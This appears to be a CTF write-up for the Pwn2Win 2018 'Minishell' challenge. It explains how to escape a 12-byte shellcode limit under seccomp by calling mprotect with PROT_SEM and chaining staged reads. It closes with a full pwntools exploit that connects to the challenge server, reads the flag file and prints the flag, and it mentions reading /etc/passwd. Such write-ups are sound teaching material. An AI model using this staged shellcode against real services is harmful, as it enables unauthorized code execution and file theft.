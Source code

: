 ```yaml
---
layout: post
category: Pwn
title: Pwn2Win 2018 Minishell
tags: 
    - kowu
---
```


We are allowed to directly execute x64 shellcode in a r/x mmapped region, however only up to a Size of 12 Bytes. And there was seccomp enabled, so we only had `mprotect`, `read`, `write`, `open` and a few other syscalls available.
We cannot read the flag with only 12 Bytes available, so we must somehow reread additional shellcode. Therefore we must get our mempage writable again.
And afterwards we need to read some shellcode in there, overwriting our currently executed shellcode.

## Step1: Making the mempage writable
As the last function call before jumping into our shellcode was mprotect, most of the registers luckily were already set correctly.
As we want to call mprotect by syscall, our shellcode therefore only needs to set rax = 10 (for mprotect) and rdx = 7 (for r/w/x rights).
```nasm
; already set correctly : rdi = our mempage base addr, rsi = mempage size
mov al, 10
mov dl, 7
syscall
```
This will result in 6 Bytes of shellcode. Also, after successfull execution, rax will be set to zero, the syscall number of read!

## Step2: Reading 
Now we need to read from stdin, rax is already set to 0 (the id of read).
For the parameters we need to get rdi = 0 (for stdin), rsi = rdi (rdi contains our mempage addr), rdx = the amount we want to read.
My first try was something like:
```nasm
mov rsi, rdi
mov rdi, rax
mov dl, 0xff
syscall
```
Which will result in 10 Bytes of additional shellcode, way too much, we need to get it into 6 Bytes.
Therefore we can do some optimisations. For example the `mov rsi, rdi` operation (3 Bytes in size) can as well be expressed as `push rdi; pop rsi` (2 Bytes in size).
By completely removing the assignment of the rdx register, we will get a 6 Byte read shellcoode.
```nasm
push rdi
pop rsi
push rax
pop rdi
syscall
```
We now can read into our own mempage. However, rdx is still 7 from the last call, so this doesn't help us at all, we will return right into nothing after the read syscall. We need to read more.

## Step3: Mmap protection flags
As we want to get rdx > 7, we could just try to set it to some arbitrary value right before the mprotect syscall. But then mprotect will fail with EINVAL.
So let's check wich flags we have available to use the syscall correctly and get rdx > 7.
```c
/* mman-common.h */
#define PROT_READ	0x1		/* page can be read */
#define PROT_WRITE	0x2		/* page can be written */
#define PROT_EXEC	0x4		/* page can be executed */
#define PROT_SEM	0x8		/* page may be used for atomic ops */
#define PROT_NONE	0x0		/* page can not be accessed */
```
A PROT_SEM flag. Interesting. So setting rdx = 15 would work, we could read 3 additional Bytes and overwrite our whole current shellcode + 3.
Those additional 3 Bytes are sufficient to do a `jmp rsi`.
From there on it is a piece of cake, with that much space available, we can read an arbitrary amount of shellcode into memory and finally get our flag.

Full exploit code:
```python
from pwn import *

context.clear(arch='amd64')

stage1 = """
    mov al, 10
    mov dl, 15
    syscall
    push rdi
    pop rsi
    push rax
    pop rdi
    syscall
    """
stage1 = asm(stage1)
assert len(stage1) <= 12

stage2 = """
    mov dx, 0x1000
    xor rax, rax
    syscall
"""
stage2 = asm(stage2)
assert len(stage2) <= 12
stage2 = stage2.ljust(12, asm('nop')) + asm('jmp rsi')
assert len(stage2) <= 15

stage3 = "nop\n" * 15
stage3 += pwnlib.shellcraft.open('/home/minishell/flag.txt')
stage3 += pwnlib.shellcraft.read('rax', 'rsp', 0x1000)
stage3 += pwnlib.shellcraft.write(1, 'rsp', 'rax')
stage3 = asm(stage3)

# r = remote('localhost', 6666)
r = remote('200.136.252.34', 4545)
if __name__ == '__main__':
    r.recvuntil('? ')
    r.send(stage1)
    r.recvuntil('!\n')
    r.send(stage2)
    r.send(stage3)
    r.interactive()
    # CTF-BR{s0000_t1ght_f0r_my_B1G_sh3ll0dE_}

```
The PATH wasn't set, so just opening `flag.txt` did not work. Had to read `/etc/passwd` to find out the home path.
